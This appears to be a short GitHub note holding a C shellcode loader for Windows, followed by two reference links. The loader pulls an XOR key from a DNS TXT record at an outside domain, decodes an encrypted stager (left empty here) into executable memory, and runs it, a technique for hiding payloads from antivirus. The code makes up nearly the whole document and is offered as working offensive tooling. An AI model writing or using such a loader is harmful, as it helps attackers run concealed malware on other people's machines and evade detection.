 ```
#include <windows.h>
#include <windns.h>

unsigned char stager[] = { };

DWORD getKey(void) {
	PDNS_RECORD txtData;
	DNS_STATUS status;

	
	status = DnsQuery_A("ironbank.training", DNS_TYPE_TEXT, DNS_QUERY_STANDARD, NULL, &txtData, NULL);
	if (status != 0) {
		return 0;
	}

	
	return *(DWORD*)(*txtData->Data.Txt.pStringArray);
}

void decode(DWORD key, const char *input, char *output, DWORD len) {
	int i = 0;

	for (i = 0; i < len; i+=4) {
		*(DWORD*)(output+i) = *(DWORD *)(input+i) ^ key;
		key++;
	}
}

int main()
{
	DWORD oldProtect;
	void* decryptedStager;

	decryptedStager = VirtualAlloc(NULL, sizeof(stager), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	//VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
	//int (*shellcode)() = (int(*)())(void*)stager;
	decode(getKey(), stager, (char*)decryptedStager, sizeof(stager));
	int (*shellcode)() = (int(*)())(void*)decryptedStager;
	shellcode();
}
```






* [DnsQuery_W function] (https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w)
* [Windows Shellcode Execution Techniques] (https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
